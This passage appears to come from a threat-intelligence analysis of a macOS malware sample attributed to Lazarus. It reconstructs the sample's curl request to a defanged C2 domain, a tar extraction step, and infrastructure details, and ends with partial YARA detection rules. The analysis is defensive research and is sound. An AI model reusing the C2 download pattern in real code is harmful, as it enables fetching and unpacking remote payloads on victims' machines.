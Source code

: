 #### 3.2.2 - Download File

Then `libcurl` to build a curl command that would be equivalent to:
```bash
curl -X GET "https[:]//capitalzeroco[.]com?response=<response_data>" \
     -H "User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 12_4) AppleWebKit/601.7.7 (KHTML, like Gecko) Version/9.1.2 Safari/601.7.7" \
     -H "Content-Encoding: application/x-www-form-urlencoded; charset=UTF-8"
```

If there is a successful download, it would try to perform the following command using the `Shell()` helper:

```bash
tar zxvf \'{}\' -C \'{new file}\'"
```

## 4. Infrastructure Analysis
The C2 domain in this sample is capitalzeroco[.]com and currently points to the domain 172[.]93[.]201[.]106. It is currently running Microsoft IIS and has RDP exposed. This means that this host is most likely a compromised asset making pivoting off this particular infra difficult.

The domain was registered on Porkbun which is a favorite of 

## 5. Appendix

### 5.1 - YARA Rules

```yaml
rule operation_intercept_macos_stage1 {
   meta:
      description = "Detecting persistence of macOS persistence Lazarus"
      author = "@birchb0y"
      reference = ""
      date = "2023-13-05"
		
	strings:
      $persist1 = "com.diagnosticspeer.plist"
      $persist2 = "DiagnosticsPeer"
      $persist3 = "pgrep -f diageventagent"
      $persist4 = "diageventagent_"
      $persist5 = "diagevent_"
      $persist6 = "diageventagent"
      $persist7 = "diageventd.app"

      $plist1 = "iTunes_trush"
      $plist2 = "OnDemand"
      $plist3 = "RunAtLoad"
      $plist4 = "KeepAlive"

	condition:
      any of ($persist*) or all of ($plist*)
}  

rule operation_intercept_stage2 {
   meta:
      description = ""
      author = "@birchb0y"
      reference = ""
      date = "2023-13-05"

	strings:
      $string1 = "DiagnosticsPeer"
      $string2 = "capitalzeroco.com"

```